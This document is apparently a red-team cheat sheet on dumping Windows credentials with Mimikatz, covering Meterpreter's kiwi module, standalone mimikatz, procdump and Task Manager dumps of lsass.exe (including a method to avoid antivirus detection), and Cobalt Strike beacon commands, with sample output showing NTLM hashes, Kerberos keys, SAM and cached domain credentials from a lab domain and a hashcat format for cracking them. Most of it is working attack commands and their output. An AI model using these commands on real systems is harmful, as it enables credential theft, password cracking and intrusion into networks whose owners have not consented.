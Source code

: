 # Mimikatz

#### MSF
```bash
meterpreter > load kiwi
meterpreter > lsa_dump_sam
meterpreter > creds_all
meterpreter > lsa_dump_secrets
```

### standalone executable
```cmd
.\mimikatz.exe
# privilege::debug
# lsadump::sam
# lsadump::secrets
# sekurlsa::logonpasswords
```

When is detected by antivirus or Windows defender
**local usage**
```bat
C:\procdump.exe --accepteula -ma lsass.exe lsass.dump
**remote usage: (if you do not want to / cannot put the sysinternals tools on disk)**
net use Z: https://live.sysinternals.com

Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

#### Using the Task Manager
1. Open Task Manager
2. Go to tab Details
3. Search process lsass.exe
4. Right button: Create dump
5. `D:\AppData\Local\Temp\lsass.DMP`

#### Use Mimikatz with lsass.dump
To extract passwd from mini dump use mimikatz
```cmd
mimikatz # sekurlsa::minidump lsass.dmp
Switch to minidump
mimikatz # sekurlsa::logonPasswords
<....>
Mimikatz
	C:\Tools\password_attacks\mimikatz.exe
	privilege::debug

	token::elevate (administrative privilege)

	lsadump::sam

	sekurlsa::logonpasswords

	sekurlsa::tickets
```

## beacon + mimikatz

```powershell
beacon> mimikatz !lsadump::sam
```
 
 The `!` elevates to SYSTEM before running the command; and `@` impersonates Beacon's thread token before running the command.

### Get clear-text passwords and hashes

```powershell
beacon> mimikatz !sekurlsa::logonpasswords

Authentication Id : 0 ; 579458 (00000000:0008d782)
Session           : Batch from 0
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 8/31/2022 11:49:48 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1105
	msv :
	 [00000003] Primary
	 * Username : jking
	 * Domain   : DEV
	 * NTLM     : 59fc0f884922b4ce376051134c71e22c
	 * SHA1     : 74fa9854d529092b92e0d9ebef7ce3d065027f45
	 * DPAPI    : 0837e40088a674327961e1d03946f5f2
```

Cobalt Strike also has a short-hand command for this called `logonpasswords`.  After dumping these credentials, go to _View > Credentials_ to see a copy of them.

### Get kerberos Encryption Key
```powershell
beacon> mimikatz !sekurlsa::ekeys

Authentication Id : 0 ; 459935 (00000000:0007049f)
Session           : Batch from 0
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 9/1/2022 7:29:19 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1105

	 * Username : jking
	 * Domain   : DEV.CYBERBOTIC.IO
	 * Password : (null)
	 * Key List :
	   aes256_hmac       4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6
	   rc4_hmac_nt       59fc0f884922b4ce376051134c71e22c
	   rc4_hmac_old      59fc0f884922b4ce376051134c71e22c
	   rc4_md4           59fc0f884922b4ce376051134c71e22c
	   rc4_hmac_nt_exp   59fc0f884922b4ce376051134c71e22c
	   rc4_hmac_old_exp  59fc0f884922b4ce376051134c71e22c
```

aes256 is the key that one. These hashes are not automatically populated into the Credential data model, but they can be added manually via _View > Credentials > Add_.

### Dump local accounts (admin)
```powershell
beacon> mimikatz !lsadump::sam
	
Domain : WKSTN-2
SysKey : b9dc7de8b1972237bbbd7f82d970f79a
Local SID : S-1-5-21-2281971671-4135076198-2136761646

SAMKey : b0664279732686cfbb4b788c078fea82

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889
    lm  - 0: 91b6e660bcac036ae7ab67a3d383bc82
    ntlm- 0: fc525c9683e8fe067095ba2ddc971889
```

### Domain Cached Credentials
```powershell
beacon> mimikatz !lsadump::cache

Domain : WKSTN-2
SysKey : b9dc7de8b1972237bbbd7f82d970f79a

Local name : WKSTN-2 ( S-1-5-21-2281971671-4135076198-2136761646 )
Domain name : DEV ( S-1-5-21-569305411-121244042-2357301523 )
Domain FQDN : dev.cyberbotic.io

Policy subsystem is : 1.18
LSA Key(s) : 1, default {9f88abd7-1cb9-d741-372b-c883b3cbf843}
  [00] {9f88abd7-1cb9-d741-372b-c883b3cbf843} c38164900449d2c6d81b557198ab0cbda2c0ce1c9f57c717cb221032ba1adffb

* Iteration is set to default (10240)

[NL$1 - 9/1/2022 8:10:06 AM]
RID       : 00000450 (1104)
User      : DEV\bfarmer
MsCacheV2 : 98e6eec9c0ce004078a48d4fd03f2419

[NL$2 - 9/1/2022 10:29:19 AM]
RID       : 00000451 (1105)
User      : DEV\jking
MsCacheV2 : 0d50dee9ed3f29d00282168297090d2a
```

To crack these with [hashcat](https://hashcat.net/hashcat/), we need to transform them into the expected format. The [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes) shows us it should be `$DCC2$<iterations>#<username>#<hash>`.

* Iteration is set to default (10240)
* User      : DEV\bfarmer
* MsCacheV2 : 98e6eec9c0ce004078a48d4fd03f2419


## Bibliography
Reference about wdigest:
[](https://blog.netwrix.com/2022/10/11/wdigest-clear-text-passwords-stealing-more-than-a-hash/)